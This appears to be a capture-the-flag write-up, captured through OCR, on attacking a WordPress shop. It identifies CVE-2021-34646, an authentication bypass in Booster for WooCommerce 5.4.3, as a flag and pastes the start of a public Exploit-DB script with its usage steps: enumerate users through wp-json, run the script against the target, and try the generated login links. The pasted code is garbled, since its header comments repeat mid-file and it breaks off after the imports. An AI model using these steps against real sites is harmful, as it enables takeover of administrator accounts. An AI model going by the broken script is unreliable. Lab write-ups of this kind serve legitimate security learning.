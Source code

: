 #### **Vulnerability Search**

  * **Wordpress 5.8.1** - CVE's affecting this WP version haven't yet been identified nor reported.
  * **WooCommerce 5.7.1** - CVE's affecting this WooCommerce version haven't yet been identified nor reported.
  * **Booster for WooCommerce 5.4.3** - Versions up to, and including, 5.4.3, of the Booster for WooCommerce WordPress plugin are **vulnerable to authentication bypass**.

**Flag 1 Identified ->** flag{[CVE-2021-34646](https://nvd.nist.gov/vuln/detail/CVE-2021-34646)}


#### **Search for an available exploit online**

* [Exploit](https://www.exploit-db.com/exploits/50299)

``` python 
# Exploit Title: WordPress Plugin WooCommerce Booster Plugin 5.4.3 - Authentication Bypass
# Date: 2021-09-16
# Exploit Author: Sebastian Kriesten (0xB455)
# Contact: https://twitter.com/0xB455
#
# Affected Plugin: Booster for WooCommerce
# Plugin Slug: woocommerce-jetpack
# Vulnerability disclosure: https://www.wordfence.com/blog/2021/08/critical=-authentication-bypass-vulnerability-patched-in-booster-for-woocommerce/
# Affected Versions: <= 5.4.3
# Fully Patched Version: >= 5.4.4
# CVE: CVE-2021-34646
# CVSS Score: 9.8 (Critical)
# Category: webapps
#
# 1:
# Goto: https://target.com/wp-json/wp/v2/users/
# Pick a user-ID (e.g. 1 - usualy is the admin)
#
# 2:
# Attack with: ./exploit_CVE-2021-34646.py https://target.com/ 1
#
# 3:
# Check-Out  out which of the generated links allows you to access the system
#
import requests,sys,hashlib
import argparse
import datetime
import email.utils
import calendar
import base64  # Exploit Title: WordPress Plugin WooCommerce Booster Plugin 5.4.3 - Authentication Bypass
# Date: 2021-09-16
# Exploit Author: Sebastian Kriesten (0xB455)
# Contact: https://twitter.com/0xB455
#
# Affected Plugin: Booster for WooCommerce
# Plugin Slug: woocommerce-jetpack
# Vulnerability disclosure: https://www.wordfence.com/blog/2021/08/critical=-authentication-bypass-vulnerability-patched-in-booster-for-woocommerce/
# Affected Versions: <= 5.4.3
# Fully Patched Version: >= 5.4.4
# CVE: CVE-2021-34646
# CVSS Score: 9.8 (Critical)
# Category: webapps
#
# 1:
# Goto: https://target.com/wp-json/wp/v2/users/
# Pick a user-ID (e.g. 1 - usualy is the admin)
#
```